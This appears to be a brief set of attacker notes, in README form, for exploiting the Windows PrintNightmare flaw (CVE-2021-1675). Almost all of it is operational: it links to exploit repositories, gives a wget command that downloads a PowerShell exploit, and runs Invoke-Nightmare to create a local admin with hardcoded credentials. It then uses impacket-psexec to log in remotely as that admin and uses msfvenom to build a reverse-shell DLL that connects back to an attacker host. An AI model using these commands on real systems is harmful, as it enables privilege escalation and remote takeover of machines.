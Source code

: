 # CVE-2021-1675

## check if vulnerable

https://github.com/cybersecurityworks553/CVE-2021-1675_PrintNightMare

## local priv esc 

see https://github.com/puckiestyle/CVE-2021-1675/blob/main/readme2.md

```bash
wget https://github.com/puckiestyle/CVE-2021-1675/raw/main/CVE-2021-1675.ps1
```

```cmd
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare
```

```bash
impacket-psexec adm1n:P\@ssw0rd@"$rhost"
```

## probably a dll is needed

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f dll -o rev.dll
